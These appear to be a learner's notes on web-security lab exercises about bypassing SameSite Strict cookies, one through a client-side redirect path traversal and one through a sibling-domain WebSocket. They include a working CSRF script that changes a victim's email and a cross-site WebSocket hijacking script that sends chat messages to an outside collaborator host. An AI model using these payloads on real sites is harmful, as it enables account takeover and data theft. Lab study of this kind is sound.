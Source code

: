 # SameSite Strict bypass via client-side redirect
Change email
## Observations
- SameSite set to Strict. 
- No CSRF token
- Blog allows comments and automatically redirects you back to the blog after commenting which is a new change.
/resources/js/commentConfirmationRedirect.js:
```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
- The JS uses postId query parameter to dynamically construct the path for the client-side redirect. So, we can do something like this:
```
https://0aba0023041622cd80172161009600cd.web-security-academy.net/post/comment/confirmation?postId=2../../../my-account
```
This will get us back to the my-account page after 3 seconds. So, we could use that in combination with a CSRF payload in a GET request to change the victim's email. It does allow email change via GET with params in the URL. 

- This won't even require a fancy CSRF payload from Burp, just a simple script that loads that GET request:
```
<script>
    document.location = "https://0aba0023041622cd80172161009600cd.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

# SameSite Strict bypass via sibling domain
Steal login credentials
## Observations
- There is a chat on this site which is different. 
- Chat runs over websockets. 
- Starting a chat starts with a 'READY' message. 
- Probably a Cross-Site Web Socket Hijacking vuln. 
- See if they click on or if we can get a CSWSH:
```
<script>
    var ws = new WebSocket('wss://0aaa0093037a1d9c818af733002c00df.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
- It works, this opens a new chat session and sends the response to the collaborator server. 
- Nothing really all that great to be seen here so far, the session token isn't sent to the chat and its SameSite=Strict. 